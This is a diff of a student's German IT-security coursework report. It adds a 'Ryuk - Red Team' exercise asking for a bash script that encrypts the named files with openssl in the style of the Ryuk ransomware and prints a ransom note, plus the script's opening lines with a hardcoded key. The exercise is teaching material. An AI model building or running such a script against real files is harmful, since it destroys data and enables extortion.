

Before and after one commit to lisahintermaier/4AHITS_ITSE_Hintermaier, a Markdown page: berichte/20261001.md, 2 parts joined by grey strips. GitHub-like rendering; pictures changed too: berichte/image-2.png (added); blank space fills up the shorter version.

````diff
--- a/berichte/20261001.md
+++ b/berichte/20261001.md
@@ -19,6 +19,25 @@ Globaler RSA Masterkey für die Zentrale Kontrolle: Eine Geheimnis für alle Opf
 -> so wie im Unterricht besprochen
 
 ## Übung 1.2 Ryuk - Red Team
+Red Team = Angreifer
+Erstelle ein bash Script das mehrere Dateinamen als Argumente akzeptiert und diese Dateien nach der von Ryuk angewendeten Strategie verschlüsselt. Verwende openssl.
+Z.B. alle Dateien im Verzeichnis verschlüsseln:
+$ ryuk_ransom *
+Nach dem Verschlüsseln aller Daten soll eine furchterregende "Ransom Note" ausgegeben
+
+### Skript:
+
+```sh
+#!/bin/bash
+
+# Prüfe ob Argumente vorhanden sind
+if [ $# -eq 0 ]; then
+   echo "Verwendung: $0 <datei1> <datei2> ..."
+   exit 1
+fi
+
+ENCRYPTION_KEY="MySecretKey12345"
+encrypted_count=0
 
 # Verschlüssele jede Datei
 for file in "$@"; do
@@ -40,4 +59,7 @@ echo "$encrypted_count Datei(en) verschluesselt."
 echo "============================================"
 ```
 
+![alt text](image-2.png)
+
+
 ## Anmerkung: in den ersten 2 Stunden habe ich gefehlt, da ich krank war
````
